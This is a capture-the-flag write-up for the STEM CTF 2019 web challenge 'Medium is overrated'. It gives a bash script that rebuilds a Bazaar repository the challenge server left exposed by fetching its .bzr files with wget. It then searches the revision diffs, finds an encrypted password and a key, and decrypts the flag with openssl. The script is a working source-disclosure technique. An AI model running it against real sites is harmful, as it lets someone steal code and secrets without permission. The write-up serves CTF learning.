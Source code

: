 # STEM CTF Cyber Challenge 2019 – Medium is overrated

* **Category:** Web
* **Points:** 200

## Challenge

> I got hacked last time, but that’s not gonna stop me. The world deserves the next great blogging platform!
> 
> http://138.247.13.104

## Solution

Challenge is similar to the previous one (i.e. *My First Blog*), but the number of revisions is huge.

So a [bash script](bzr-chall-solver.sh) can be written to reproduce the repository locally.

The script will recreate the `index.php` file of the previous challenge and another file called `noIdeaWhatImDoing`.

Analyzing the history situation with `bzr log` and some `bzr diff`, you can discover that files were modified several times. Maybe one of these revisions will contain the flag.

After some analysis you can discover that changes on `index.php` are the ones really important. The initial script can be modified in order to discover all important differencies on `index.php`.

```bash
#!/bin/bash

echo "[*] Creating local repository."
mkdir ctf-bzr
cd ctf-bzr/
bzr init
echo 'foo' > foo.txt
bzr add
bzr commit -m "foo"
rm foo.txt

echo "[*] Replacing last-revision file."
cd .bzr/branch
rm last-revision
wget http://138.247.13.104/.bzr/branch/last-revision

echo "[*] Replacing dirstate file."
cd ../checkout
rm dirstate
wget http://138.247.13.104/.bzr/checkout/dirstate

echo "[*] Replacing pack-names file."
cd ../repository
rm pack-names
wget http://138.247.13.104/.bzr/repository/pack-names


echo "[*] Using check command to discover missing files."
cd indices/
rm *.cix
rm *.iix
rm *.rix
rm *.six
rm *.tix
cd ../packs
rm *.pack
cd ../../../
while true; do
   CHECK_OUTPUT=$(bzr check 2>&1)
   if [[ $CHECK_OUTPUT == *"bzr: ERROR: No such file:"* ]]; then
      MISSING_FILE=$(echo $CHECK_OUTPUT | sed 's/.*\([0-9a-f]\{32\}\).*/\1/')
      echo "[*] Missing files $MISSING_FILE."
      declare -a EXTENSIONS=("cix" "iix" "rix" "six" "tix")
      for EXTENSION in "${EXTENSIONS[@]}"; do
         TARGET_URL="http://138.247.13.104/.bzr/repository/indices/$MISSING_FILE.$EXTENSION"
         echo "[*] Downloading $TARGET_URL"
         wget $TARGET_URL -P .bzr/repository/indices/
      done
      TARGET_URL="http://138.247.13.104/.bzr/repository/packs/$MISSING_FILE.pack"
      echo "[*] Downloading $TARGET_URL"
      wget $TARGET_URL -P .bzr/repository/packs/
   else
      echo "[*] Probably all missing files have been downloaded."
      break
   fi
done

echo "[*] Reverting missing source files."
bzr revert

echo "[*] Searching the flag into revisions."
R=1
while true; do
   RNEXT=$((R+1))
   
   # Analyzing diff.
   REVISION=$(bzr diff -r$R..$RNEXT)
   if [[ $REVISION == "" ]]; then
      break
   elif [[ $REVISION != *"noIdeaWhatImDoing"* ]]; then
      echo "[*] ... $R -> $RNEXT"
      echo $REVISION
   fi

   R=$RNEXT
done
```

Two differencies can be identified.

```
$ bzr diff -r154..155
=== modified file 'index.php'
--- index.php	2018-12-06 18:48:25 +0000
+++ index.php	2018-12-06 22:52:42 +0000
@@ -10,6 +10,11 @@
             <h1 class="display-4">My Blog</h1>
             <p class="lead">Just a spot for me to talk about how much I love Canonical</p>
         </div>
+            <h1>Encryption is so cool!</h1>
+            <p>It's so cool that I can paste a block of text here and if its encrypted then none of you will EVER be able to read it! After reading about it, I'm so comfortable with it that I'm willing to paste my Bitcoin Wallet password right here:</p>
+            <p>NWEyYTk5ZDNiYWEwN2JmYmQwOGI5NjEyMDVkY2FlODg3ZmIwYWNmOWYyNzI5MjliYWE3OTExZmFhNGFlNzc1MQ==</p>
+            <p>There's like a whole 3 Bitcoin in there, but none of you will ever be able to get it!</p>
+            <hr>
             <h1>I love Canonical</h1>
             <p>As someone who is just getting started with Linux, I love Canonical. They build the easiest to use Linux distribution I can find, and they build so many useful tools. So far I've tried out</p>
             <ul>

$ bzr diff -r165..166
=== modified file 'index.php'
--- index.php	2018-12-06 22:54:52 +0000
+++ index.php	2018-12-06 23:00:02 +0000
@@ -10,6 +10,8 @@
             <h1 class="display-4">My Blog</h1>
             <p class="lead">Just a spot for me to talk about how much I love Canonical</p>
         </div>
+            <h1>CentOS is just RedHat</h1>
+            <p>A friend of mine was explaining how the company he works for pays for RedHat. I don't understand why they are LITERALLY throwing their money away since CentOS is just RedHat. In fact, CentOS is even better than RedHat since it discovers the fastest mirror automatically. I'm applying for one of their open job reqs just to give them a piece of my mind.</p>
             <h1>I love Canonical</h1>
             <p>As someone who is just getting started with Linux, I love Canonical. They build the easiest to use Linux distribution I can find, and they build so many useful tools. So far I've tried out</p>
             <ul>
@@ -26,4 +28,5 @@
             ?>
         </div>
     </body>
-</html>
\ No newline at end of file
+</html>
+<!-- 6fb3b5b05966fb06518ce6706ec933e79cfaea8f12b4485cba56321c7a62a077 -->
\ No newline at end of file
```

The first one contains a base64 encoded password for a Bitcoin wallet.

```
NWEyYTk5ZDNiYWEwN2JmYmQwOGI5NjEyMDVkY2FlODg3ZmIwYWNmOWYyNzI5MjliYWE3OTExZmFhNGFlNzc1MQ==
```

Decoded string is the following.

```
5a2a99d3baa07bfbd08b961205dcae887fb0acf9f272929baa7911faa4ae7751
```

The second one contains an hexadecimal string.

```
6fb3b5b05966fb06518ce6706ec933e79cfaea8f12b4485cba56321c7a62a077
```

This string must be considered like the AES ECB key to decode the Bitcoin wallet password.

The following OpenSSL command will give you the flag.

```
$ openssl enc -d -aes-256-ecb -K '6fb3b5b05966fb06518ce6706ec933e79cfaea8f12b4485cba56321c7a62a077' -in <(echo '5a2a99d3baa07bfbd08b961205dcae887fb0acf9f272929baa7911faa4ae7751' | xxd -r -p)
```

The flag is the following.

```
MCA{I$love$bitcoin$so$much!}
```